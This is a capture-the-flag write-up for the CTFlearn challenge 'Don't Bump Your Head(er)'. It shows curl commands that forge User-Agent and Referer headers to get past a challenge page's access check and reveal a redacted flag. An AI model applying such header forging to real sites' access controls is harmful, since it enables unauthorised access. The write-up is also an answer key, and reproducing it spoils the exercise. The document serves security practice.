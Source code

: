 ### Don't Bump Your Head(er) 
https://ctflearn.com/challenge/109

## Decription
Try to bypass my security measure on this site! http://165.227.106.113/header.php

#  Solution
We need to bypass the security.Now let’s try to open the url given.

Curl is a great tool for transferring data from or to a server. It's also great to manipulate request headers. Manual page of curl can be found here. 
https://curl.se/docs/manpage.html

A curl request was done to the web page and got a response back as follow.

    % curl http://165.227.106.113/header.php
    Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: curl/7.64.1
    <!-- Sup3rS3cr3tAg3nt  -->

So the curl command was constructed with a modified User-Agent as below.

    curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php 
    Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
    <!-- Sup3rS3cr3tAg3nt  -->

The response above wanted the request traffic to be referred from a site called awesomesauce.com. So the curl command is further constructed to modify the referer in the header reqeust as below.

    % curl -e 'awesomesauce.com' -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php
    Here is your flag: flag{redacted}
    <!-- Sup3rS3cr3tAg3nt  -->
